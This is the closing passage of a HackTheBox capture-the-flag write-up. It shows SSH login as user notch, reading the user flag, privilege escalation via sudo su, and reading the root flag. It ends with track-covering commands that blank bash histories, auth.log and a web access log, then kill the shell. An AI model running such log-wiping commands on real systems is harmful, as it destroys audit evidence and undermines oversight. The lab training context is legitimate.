 
* `ssh notch@10.10.10.37`


![A14-notchsshwin](https://i.imgur.com/wDjcZOo.png)


And we're in!


## 4. Capturing the User Flag


Let's grab user

* `ls /home`
* `ls -la /home/notch`
* `cat /home/notch/user.txt`


A little prior knowledge tells me that Notch is the inventor and boss of the Minecraft universe - Could this mean he is the admin of this system? Let's find out what we can run as superuser.


![A15-sudo_L](https://i.imgur.com/CQOQ3YB.png)


Yup, he's an admin. This could be all we need to know to gain root access.



* `sudo su`

![A16 - rootshell](https://i.imgur.com/vc1DDda.png)

We have a root shell, and it feels good


## 5. Call Me Markus, Superuser.


From here, it is as trying to read the root flag.

`ls /root`
`cat /root/root.txt`

Success! Grab the root flag and let's clean up.


__NOTE:__ These are some pretty simple cleanup commands meant to cover our tracks a little bit, but only a little bit. A trained admin would notice that these files have been altered, so look at these commands as the beginning of your tracks-covering career and not as a MIB-Style mind wipe.


* `echo '' > /home/notch/.bash_history`
* `echo '' > /var/log/auth.log `
* `echo '' > /var/www/admin/logs/access.log`
* `echo '' > /root/.bash_history`


Exit the root shell with


`history -c  && kill -9 $$`


then repeat this command as notch, and you're all done.


Thanks to HackTheBox and Arrexel!

## Thanks for reading!

<br>
[Main Page](index.md)
